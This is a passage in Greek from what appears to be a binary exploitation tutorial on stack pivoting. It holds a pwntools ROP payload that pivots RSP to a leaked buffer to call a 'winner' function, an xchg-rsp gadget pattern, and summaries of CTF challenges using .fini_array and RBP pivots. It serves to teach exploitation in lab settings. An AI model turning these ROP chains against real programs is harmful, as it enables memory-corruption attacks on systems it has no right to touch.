 ```python
payload = flat(
0,                 # r13
0,                 # r14
0,                 # r15
POP_RDI,
0xdeadbeef,
POP_RSI_R15,
0xdeadc0de,
0x0,               # r15
elf.sym['winner']
)

payload = payload.ljust(104, b'A')     # pad to 104

# Start popping RSP, this moves the stack to the leaked address and
# continues the ROP chain in the prepared payload
payload += flat(
POP_CHAIN,
buffer             # rsp
)

pause()
p.sendline(payload)
print(p.recvline())
```
### xchg \<reg>, rsp εργαλείο
```
pop <reg>                <=== return pointer
<reg value>
xchg <reg>, rsp
```
### jmp esp

Ελέγξτε την τεχνική ret2esp εδώ:

{% content-ref url="../rop-return-oriented-programing/ret2esp-ret2reg.md" %}
[ret2esp-ret2reg.md](../rop-return-oriented-programing/ret2esp-ret2reg.md)
{% endcontent-ref %}

## Αναφορές & Άλλα Παραδείγματα

* [https://bananamafia.dev/post/binary-rop-stackpivot/](https://bananamafia.dev/post/binary-rop-stackpivot/)
* [https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting)
* [https://guyinatuxedo.github.io/17-stack\_pivot/dcquals19\_speedrun4/index.html](https://guyinatuxedo.github.io/17-stack\_pivot/dcquals19\_speedrun4/index.html)
* 64 bits, εκμετάλλευση off by one με ένα rop chain που ξεκινά με ένα ret sled
* [https://guyinatuxedo.github.io/17-stack\_pivot/insomnihack18\_onewrite/index.html](https://guyinatuxedo.github.io/17-stack\_pivot/insomnihack18\_onewrite/index.html)
* 64 bit, χωρίς relro, canary, nx και pie. Το πρόγραμμα παρέχει ένα διαρροή για το stack ή το pie και ένα WWW ενός qword. Πρώτα πάρτε τη διαρροή του stack και χρησιμοποιήστε το WWW για να πάτε πίσω και να πάρετε τη διαρροή του pie. Στη συνέχεια χρησιμοποιήστε το WWW για να δημιουργήσετε έναν αιώνιο βρόγχο καταχρώμενοι τις καταχωρήσεις `.fini_array` + καλώντας το `__libc_csu_fini` ([περισσότερες πληροφορίες εδώ](../arbitrary-write-2-exec/www2exec-.dtors-and-.fini\_array.md)). Καταχρώντας αυτήν τη "αιώνια" εγγραφή, γράφεται ένα ROP chain στο .bss και καταλήγει να το καλεί περιστρέφοντας με το RBP.
